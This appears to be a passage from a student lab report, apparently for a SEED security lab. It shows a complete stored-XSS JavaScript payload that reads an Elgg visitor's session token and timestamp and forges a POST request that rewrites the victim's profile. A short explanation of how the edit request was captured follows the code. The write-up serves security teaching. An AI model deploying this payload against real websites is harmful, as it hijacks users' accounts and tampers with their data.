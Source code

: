 \section{Task 5: Modifying the Victim's Profile}
%
\begin{lstlisting}[caption=XSS script for editing a visitor's profile.,
    label={lst:xss_edit_profile}]
<script type="text/javascript">
window.onload = function(){
//JavaScript code to access user name, user guid, Time Stamp __elgg_ts
//and Security Token __elgg_token
var userName="&name="+elgg.session.user.name;
var guid="&guid="+elgg.session.user.guid;
var ts="__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;
//Construct the content of your url.
var description = "&description=Hacked by Samy!!!";
var content = `${ts}${token}${guid}${userName}${description}`; //FILL IN
var samyGuid = "59"; //FILL IN
var sendurl = "http://www.seed-server.com/action/profile/edit"; //FILL IN
if(elgg.session.user.guid!=samyGuid) // Line 1
{
//Create and send Ajax request to modify profile
var Ajax=null;
Ajax=new XMLHttpRequest();
Ajax.open("POST", sendurl, true);
Ajax.setRequestHeader("Content-Type",
"application/x-www-form-urlencoded");
Ajax.send(content);
}
}
</script>
\end{lstlisting}

\begin{figure}[h]
    \centering
    \includegraphics[height=\textheight,width=\textwidth,keepaspectratio]
    {figures/HTTP_POST_edit_profile.png}
    \caption{HTTP POST request for editing a Boby's profile.}
    \label{fig:http_post_edit_profile}
\end{figure}

Firstly, we wanted to know the pattern of the HTTP POST request for editing someone's profile.
We logged in as Boby and tried to edit profile. After pressing the \emph{Save} button, we
captured the HTTP POST request as \url{http://www.seed-server.com/action/profile/edit} and its
body contains many parameters such as \emph{\_\_elgg\_ts, \_\_elgg\_token, name, guid, description,
\dots} (see \autoref{fig:http_post_edit_profile}).


